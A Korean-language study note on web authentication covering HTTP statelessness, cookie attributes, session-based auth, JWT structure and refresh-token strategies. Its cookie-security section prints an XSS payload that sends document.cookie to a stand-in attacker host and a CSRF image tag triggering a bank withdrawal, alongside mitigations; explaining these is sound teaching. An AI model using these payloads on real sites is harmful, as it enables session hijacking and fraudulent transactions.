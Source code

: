 ## HTTP 특성

HTTP 프로토콜은 비연결성(connectionless) 및 무상태성(stateless)이라는 특징을 갖는다. HTTP 요청에 대한 응답을 처리하면 연결을 끊어버리기 때문에 클라이언트에 대한 이전 상태 정보가 남아있지 않게 된다.

이는 불필요한 자원 낭비를 줄일 수 있지만 클라이언트를 식별할 수 없다는 단점이 존재한다. (예를 들면 로그인을 하더라도 다음 요청에서 다시 로그인해야 함)

쿠키와 세션은 HTTP 특징을 보완하여 클라이언트 상태를 유지하기 위한 방법이다.

## 쿠키🍪

> 서버가 사용자의 웹 브라우저에 전송하는 작은 데이터 조각

- 서버에서 `Set-Cookie` 응답 헤더에 쿠키 정보를 담아 전송한다. `Set-Cookie: <cookie-name>=<cookie-value>`
- 브라우저는 응답받은 쿠키를 하드디스크에 저장해두고 동일한 서버에 요청할 때마다 `Cookie` 요청 헤더에 담아 전송한다.
- 주로 사용되는 상황
  - 세션 관리
  - 사용자 설정
  - 트래킹
- 💡 모든 요청마다 쿠키가 전송되기 때문에 성능이 떨어지는 원인이 될 수 있다. 웹 스토리지나 IndexedDB를 사용하는 것을 권장한다.

### 쿠키의 라이프 타임

- 만료일 혹은 지속시간도 명시될 수 있고, 만료된 쿠키는 더이상 보내지 않는다.
- 세션 쿠키는 브라우저의 세션이 종료될 때 삭제된다.
- 영속 쿠키는 `Expires` 속성에 명시된 날짜에 삭제되거나, `Max-Age` 속성에 명시된 기간 이후 삭제된다.
- ex) Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;

### 쿠키의 스코프

Domain
- 쿠키가 전송되게 될 호스트들을 명시한다.
- 명시되지 않는다면 현재 문서 위치의 호스트 일부를 기본값으로 한다.
- 명시되면 서브도메인들을 포함한다. 만약 Domain=mozilla.org이 설정되면 쿠키들은 developer.mozilla.org와 같은 서브도메인에 포함된다.

Path
- Cookie 헤더를 전송하기 위하여 요청되는 URL 내에 반드시 존재해야 하는 URL 경로
- 만약 Path=/docs이 설정되면 다음의 경로들은 모두 매치된다.
   - /docs, /docs/Web/, /docs/Web/HTTP

### `Secure`과 `HttpOnly` 쿠키

- Secure 쿠키는 HTTPS 프로토콜 상에서 암호화된 요청일 경우에만 전송된다.
- XSS 공격을 방지하기 위해 `HttpOnly` 쿠키는 자바스크립트로 (document.cookie) 접근할 수 없다. 서버에 전송되기만 한다.

## 쿠키의 보안 문제

### XSS와 세션 하이재킹

- XSS 취약점을 이용하여 쿠키를 가로챌 수 있다.
  - 인증 정보 유출 및 조작 위험
  - 클라이언트로 위장
- ✅ HttpOnly 속성을 통해 자바스크립트를 통해 쿠키 값에 접근하는 것을 막을 수 있다.

```jsx
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 사이트간 요청 위조 (CSRF)

- 특정 웹 사이트에 공격자가 의도한 행위를 요청하게 할 수 있다.
- ✅ 민감한 동작에 사용되는 쿠키는 만료 시간을 짧게 설정한다.

```jsx
<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">
```

## 세션 기반 인증

> 클라이언트의 인증 정보를 서버에 저장하는 방식

1. 클라이언트가 인증 정보를 입력한 후 서버에 전송
2. 서버에서 세션 생성 후 세션 아이디를 `Set-Cookie` 응답 헤더에 담아 전송
3. 브라우저는 매 요청마다 세션 아이디를 `Cookie` 요청 헤더에 담아 전송
4. 서버는 세션 아이디가 유효한지 검증하고 클라이언트를 식별

### 장단점

- 쿠키를 포함한 요청이 탈취되더라도 상대적으로 안전하다.
  - 인증 정보를 서버 측에 저장하고 쿠키에는 세션 아이디만 담기 때문
  - 서버에서 세션 무효화도 가능
- 서버의 자원을 사용한다. 메모리 차지, 동시 접속자가 많은 경우 부하 증가
- 서버 확장(scale out)시 문제가 발생한다.

## JWT (JSON Web Token)

- 인증에 필요한 정보들을 암호화시킨 토큰
- .을 구분자로 하여 세가지 문자열의 조합으로 구성된다.

| Encoded | Decoded |
| --- | --- |
| ![image](https://user-images.githubusercontent.com/62097867/222881519-e387651c-056b-43ff-a952-9a763eb53b66.png) | ![image](https://user-images.githubusercontent.com/62097867/222881533-73b969c4-ba84-446a-9d8f-d17cb13a1111.png) |

**Header**

- alg : 서명 암호화를 위한 해싱 알고리즘
- typ : 토큰 타입

**Payload**

- 토큰에 담을 정보
- 주로 클라이언트의 고유 ID 값 및 유효 기간 등

**Signature**

- 인코딩된 header와 payload를 해싱하고 개인키로 암호화하여 생성한 전자서명
- 서버에서 토큰의 위조/변조 여부를 확인하는 데 사용된다.
  - header와 payload는 인코딩된 값이기 때문에 디코딩 및 조작이 가능하지만 signature는 서버 측에서 관리하는 개인키가 유출되지 않는 이상 복호화할 수 없다.

https://jwt.io/

## 토큰 기반 인증

> JWT 토큰(Access Token)을 HTTP 헤더에 실어 서버가 클라이언트를 식별하는 방식

1. 클라이언트가 서버에 인증을 요청한다.
2. 서버는 이를 검증한 후 클라이언트 고유 ID 등의 정보를 payload에 담는다.
3. 개인키를 사용해 access token을 발급한 후 이를 쿠키에 담아 응답한다.
4. 클라이언트는 토큰을 저장해두고 서버에 요청할 때마다 요청 헤더 `Authorization` 에 담아 전달한다. `{ Authorization: <type> <access-token> }`
5. 서버는 토큰의 signature를 개인키로 복호화한 다음 위변조 여부 및 유효 기간을 확인한다.
6. 유효한 토큰이라면 요청에 응답한다.

### 장점

- signature를 통해 header와 payload 데이터 위변조를 막을 수 있다.
- 인증을 위한 별도의 저장소가 필요없다. 필요한 정보를 토큰 자체에 지니고 있기 때문
- 클라이언트 인증 정보를 저장하는 세션과 다르게 서버는 무상태가 된다.

### 단점

- payload 자체는 암호화되지 않기 때문에 중요한 데이터를 담을 수 없다.
- 토큰을 탈취당하면 대처하기 어렵다.
  - 쿠키/세션 기반 인증은 서버쪽에서 쉽게 세션을 삭제할 수 있다.

### 보안 전략

**1. 짧은 만료 기한 설정**

- 토큰이 탈취되더라도 빠르게 만료되기 때문에 피해를 최소화할 수 있다.
- 단점
  - 사용자가 자주 로그인해야 하는 불편함이 발생한다.

**2. Sliding Session**

- 서비스를 지속적으로 이용하는 클라이언트에게 자동으로 토큰 만료 기한을 늘려주는 전략
- 단점
  - 글 작성 혹은 결제 등을 진행하는 도중 토큰이 만료가 된다면 작업이 정상적으로 처리되지 않고 작성 정보가 날아가는 등 불편함이 발생할 수 있다.

**3. Refresh Token**

- 클라이언트가 로그인 요청을 보내면 access token과 더불어 그보다 긴 만료 기한을 가진 refresh token을 발급하는 전략
- 동작 방식
  - access token이 만료되었을 때 refresh token을 사용하여 access token의 재발급을 요청한다.
  - 서버는 DB에 저장된 refresh token과 비교하여 유효한 경우 새로운 access token을 발급하고 만료된 경우 사용자에게 로그인을 요구한다.
- 장단점
  - access token의 만료 기한을 짧게 설정할 수 있다.
  - 사용자가 자주 로그인할 필요가 없다.
  - 서버가 강제로 refresh token을 만료시킬 수 있다.
  - refresh token을 별도의 스토리지에 저장하여 검증을 수행해야 하므로 추가적인 I/O 작업이 발생한다. 이는 JWT의 장점(I/O 오버헤드없이 빠른 인증 처리)을 완벽하게 누릴 수 없다.

https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies

https://www.daleseo.com/http-session/

https://tecoble.techcourse.co.kr/post/2021-05-22-cookie-session-jwt/